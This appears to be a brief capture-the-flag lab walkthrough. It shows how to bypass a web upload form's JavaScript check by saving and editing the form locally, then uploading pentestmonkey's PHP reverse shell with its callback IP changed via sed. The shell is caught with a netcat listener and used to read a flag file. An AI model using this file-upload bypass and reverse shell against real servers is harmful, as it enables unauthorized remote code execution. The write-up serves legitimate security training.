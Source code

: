 ![](../../.gitbook/assets/image%20%2810%29.png)

To disable JS, copy file locally, and modify to:

```markup
<html><body style="background: black; color: white;">
<center><div style="border: 1px yellow double">
<br /><br />
<form action="http://75ajvxi36vchsv584es1.foocorp.io/app/upload.php" method="post" enctype="multipart/form-data">
<br />Select file to upload:
<input type="file" name="fileToUpload" id="fileToUpload">
<input type="submit" value="Upload" name="submit">
</form>
<br /><br />
</div></center/>
<hr /><br />
<center>&copy; FooCORP 2019</center>
<body></html>
```

Download, modify and upload to your local webpage this reverse shell while you listen with `nc -lnvp 1234` in your machine: 

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
sed -i 's/127.0.0.1/172.16.64.10/' php-payload.php
```

In your netcat:

```text
$ cat ./var/www/html/flag.txt
Congratulations, you got this!
```

